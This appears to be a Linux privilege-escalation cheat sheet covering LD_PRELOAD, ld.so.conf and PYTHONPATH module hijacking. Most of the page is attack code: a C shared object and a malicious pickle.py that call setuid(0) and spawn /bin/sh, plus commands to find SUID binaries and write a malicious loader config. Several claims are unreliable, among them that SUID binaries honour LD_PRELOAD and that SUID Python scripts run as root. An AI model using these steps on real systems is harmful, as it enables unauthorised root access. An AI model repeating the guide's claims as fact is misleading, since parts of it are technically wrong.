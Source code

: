 ### LD_PRELOAD & Shared Library Hijacking
1. **Find Binaries That Honor LD_PRELOAD (Including SUID)**
```bash
find / -perm -4000 -type f 2>/dev/null | while read -r bin; do
  echo "[*] Checking $bin"
  ldd "$bin" 2>/dev/null | grep "=>" && echo "[+] $bin loads shared libs"
done
```
2. **Create a Malicious Shared Object**
```bash
// exploit.c
#include <unistd.h>
void __attribute__((constructor)) init() {
    setuid(0);
    setgid(0);
    system("/bin/sh");
}
```
```bash
gcc -shared -fPIC -o /tmp/exploit.so exploit.c
```
3. **Preload & Execute the SUID Binary**
```bash
export LD_PRELOAD=/tmp/exploit.so
/path/to/suid_binary
```
- If the binary loads `libc` or another library, your `exploit.so` runs as root.
4. **Modify `/etc/ld.so.conf.d` if Writable**
```bash
echo "/home/user/mylibs" > /etc/ld.so.conf.d/malicious.conf
ldconfig
```
- Place your `.so` in `/home/user/mylibs` and run the vulnerable binary.
### Python Module Hijacking
1. **Locate SUID Python Scripts**
```bash
find / -perm -4000 -type f | grep "\.py$" 2>/dev/null
```
2. Create malicious python module
```bash
mkdir -p /tmp/malicious
cat << 'EOF' > /tmp/malicious/pickle.py
import os
os.setuid(0)
os.system("/bin/sh")
EOF
```
3. Set PYTHONPATH and Run the Script
```bash
export PYTHONPATH=/tmp/malicious:$PYTHONPATH
/usr/bin/vulnerable_suid_script.py
```
- If `vulnerable_suid_script.py` does `import pickle` (or another module you control), it spawns a root shell.